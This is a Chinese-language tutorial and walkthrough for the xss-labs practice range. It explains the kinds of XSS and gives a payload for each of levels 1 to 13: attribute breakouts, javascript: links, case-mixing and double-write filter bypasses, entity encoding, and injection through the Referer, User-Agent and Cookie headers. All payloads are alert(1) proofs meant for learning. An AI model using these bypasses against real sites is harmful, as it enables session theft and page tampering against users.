> Environment: PHP 7.3.4 + MySQL 5.7.26

> Lab: xss-labs

---

## 1.0 概述

### 1.1 XSS 跨站脚本攻击 (Cross-Site Scripting)

- 攻击者往网页注入**恶意 JavaScript 代码**, 其他用户访问页面时脚本自动执行, 窃取用户信息, 劫持会话, 篡改页面, 诱导跳转钓鱼.

- 核心成因: **前端未过滤用户输入, 直接渲染到页面.**

### 1.2 三大分类

- **01 存储型xss(持久型, 危害最大)**

  - 恶意代码存入服务器数据库, 所有访问该页面的用户都会触发

  - 场景：评论区, 留言板, 帖子, 个人简介

  - 示例留言：

    ```html
    <script>alert(document.cookie)</script>
    ```

    > 存入数据库后, 任何人打开页面都会弹出 Cookie

- **02 反射型XSS(非持久型)**

  - 恶意代码放在 URL 参数里, 点开特制链接才触发, 不存入后端

    > 后端直接把 keyword 拼到页面展示, 打开链接即执行脚本

- **03 DOM 型 XSS**

  - 漏洞完全发生在**前端 JS**, 数据不经过后端, 后端无日志记录

  - 原理: JS 直接从 URL, location.hash 获取数据并插入 DOM

  - 示例:

    ```js
    let search = location.search.slice(1);
    document.getElementById("tip").innerHTML = search;
    ```

---

## 2.0 XSS实战

### 2.1 XSS绕过决策树

- **01 HTML标签之间**

  ```html
  <div>你的输入</div>
  ```

  ```html
  <script>alert(1)</script>
  
  <svg onload=alert(1)>
  ```
  
  > 标准Payload

- **02 HTML属性值内**

  ```html
   <input value="你的输入">
  ```

  ```html
  " onclick=alert(1) "
  ```
  > 思路: 用" 闭合value属性, 用事件触发

- **03 JavaScript代码内**

  ```js
  <script>var name='你的输入';</script>
  ```

  ```js
  '; alert(1); //
  "; alert(1); //
  ```

- **04 href属性内**

  ```js
  <a href="你的输入">link</a>
  ```

  ```js
  javascript:alert(1)
  ```

### 2.2 标准验证Payload

| 攻击向量       | Payload                                   |
| -------------- | ----------------------------------------- |
| `<script>`标签 | `<script>alert(1)</script>`               |
| ``事件    | ``            |
| 鼠标点击事件   | `" onclick="alert(1)`                     |
| `<a>`伪协议    | `<a href="javascript:alert(1)">click</a>` |

> 该Payload验证, 出现弹窗即存在xss漏洞

---

### 2.3 xss-labs通关实战

- **Level 1**

  ```js
  <script>alert(1)</script>
  ```

  > 该Payload直接通关

  ---

- **Level 2**

  - 测试Payload: `<Script'"Oonn>`(后续关卡均使用该Payload测试)

  - 查看源码

    

  > 可见 `<>` 未被过滤，但 Payload 仍在 `value` 属性内，需用 `">` 提前闭合

  ```js
  "><script>alert(1)</script>
  ```

  ---

- **Level 3**

  

  > 可见在第17行代码中, <> 和 "被编码, 尝试使用鼠标点击事件onclick

  ```js
  'onclick='alert(1)
  ```

  

  > 输入框中写入Payload后点击触发事件过关

  ---

- **Level 4**

  ```html
  <input name=keyword  value="Script'"Oonn">
  ```

  >可见Payload被过滤掉<>, 使用和Level 3相同Payload即可, 只需修改闭合符

  ```js
  "onclick="alert(1)
  ```

  

  ---

- **Level 5**

  ```html
  <input name=keyword  value="<scr_ipt"'oo_nn>">
  ```

  > 可见script和on关键字被过滤

  **使用伪协议:**

  ```js
  "><a href="javascript:alert(1)">click</a>
  ```

  

  ---

- **Level 6**

  ```html
  <input name=keyword  value="<Script"'Oo_nn>">
  ```

  > on事件被过滤, 但大小写script混合未过滤

  **使用大小写混合:** 

  ```js
  "><Script>alert(1)</script>
  ```

  > 成功跳转至Level 7

  ---

- **Level 7**

  ```html
  <input name=keyword  value="<"'on>">
  ```

  > 整个script均被过滤, 但on还剩一个, 证明只做一次过滤

  **使用双写:**

  ```js
  "><scscriptript>alert(1)</scscriptript>
  ```

  > 逻辑: 源码只过滤一次script关键字, 双写刚好只剩一个完整`<script></script>`

  ---

- **Level 8**

  

  > 源码可见注入发生在<a href>中, 且script会被过滤, 使用编码器将s编码`&#x73;`

  **使用伪协议:**

  ```js
  java&#x73;cript:alert(1)
  ```

  

  ---

- **Level 9**

  

  > 将链接改为标准格式即可

  ```js
  java&#x73;cript:alert('http://baidu.com')
  ```

  

  ---

- **Level 10**

  - 主页无输入框, 且keyword的参数不影响value(通过以下源码可知)

    

  

  > 通过源码可知, 传参点在input内
  
  - 对t_link, t_history, t_sort 三个字段分别传参测试
  
  `t_link=1` `t_history=1` `t_sort=1`
  
  
  
  > 可见注入点在t_sort字段中, 构造以下payload
  
  ```js
  click" type="button" onclick="alert(1)
  ```
  
  
  
  ---
  
- **Level 11**

  

  > 通过以上源码可知, 注入点在t_ref 且或许类似于Request的Referer字段, 利用burpsuite测试

  

  > 抓包数据印证猜测无误, 本页面确实是由level 10 通过构造的t_sort Payload跳转

  ```js
  click" type="button" onclick="alert(1)
  ```

  - 将Request中Referer字段值替换为以上Payload,  Forward后得到以下结果:

  

  ---

- **Level 12**

  

  > 通过源码可知, t_ua 为Request中User-Agent字段, 同样使用burpsuite抓包

  

  ```js
  click" type="button" onclick="alert(1)
  ```

  - 将Request中User-Agent字段值替换为以上Payload,  Forward后得到以下结果:

  

  ---

- **Level 13**

  

  > 通过源码可知, t_cook 为Request中Cookie字段, 同样使用burpsuite抓包

  

  ```js
  click" type="button" onclick="alert(1)
  ```

  - 将Request中Cookie字段值替换为以上Payload,  Forward后得到以下结果:

